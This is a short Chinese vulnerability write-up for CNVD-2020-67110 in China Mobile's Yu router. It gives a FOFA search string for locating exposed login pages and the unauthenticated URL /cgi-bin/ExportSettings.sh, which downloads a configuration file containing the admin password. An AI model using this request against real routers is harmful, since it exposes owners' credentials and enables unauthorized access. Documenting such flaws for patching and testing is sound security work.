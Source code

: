 # 中国移动 禹路由 ExportSettings.sh 敏感信息泄露漏洞 CNVD-2020-67110

## 漏洞描述

中国移动 禹路由 ExportSettings.sh 存在敏感信息泄露漏洞，攻击者通过漏洞获取配置文件，其中包含账号密码等敏感信息

## 漏洞影响

```
中国移动 禹路由
```

## FOFA

```
title="互联世界 物联未来-登录"
```

## 漏洞复现

登录页面如下

![](./images/202202162254794.png)

访问Url

```plain
/cgi-bin/ExportSettings.sh
```

![](./images/202202162254659.png)

其中password为登录后台密码